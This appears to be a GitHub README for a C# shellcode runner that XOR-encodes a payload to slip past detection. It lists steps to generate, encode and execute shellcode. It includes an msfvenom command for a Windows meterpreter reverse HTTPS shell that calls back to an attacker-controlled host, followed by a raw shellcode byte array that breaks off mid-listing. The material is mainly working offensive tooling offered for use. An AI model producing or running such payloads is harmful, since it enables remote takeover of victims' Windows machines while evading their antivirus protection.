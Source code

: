<br>
<br>

# CSharp

<br>

## _.NET
<br>

 #### 1. Generate shellcode
 #### 2. XOR Shellcode
 #### 3. Place XOR shellcode into Runner
 #### 4. Execute = D
 
 - Modify however you want, keep'em guessing ; )

<br>

### **XOR**
***
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;

namespace Helper
{
    class Program
    {
static void Main(string[] args)
    {
    //msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.XX.XX LPORT=443 -f csharp

    byte[] buf = new byte[510] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x51,0x48,0x8b,0x52,0x18,0x56,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x4d,0x31,0xc9,0x48,0x0f,0xb7,0x4a,0x4a,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,
0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x4d,
0x31,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,
0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,
0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,
0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,
0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x00,0x00,
0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,0x49,0x89,0xe5,
0x49,0xbc,0x02,0x00,0x0d,0x05,0xc0,0xa8,0x01,0x26,0x41,0x54,0x49,0x89,0xe4,
0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68,
0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,
0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,
0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,
0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,
0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,0xce,0x75,0xe5,
0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,0xc9,
0x6a,0x04,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,
0x83,0xf8,0x00,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,
```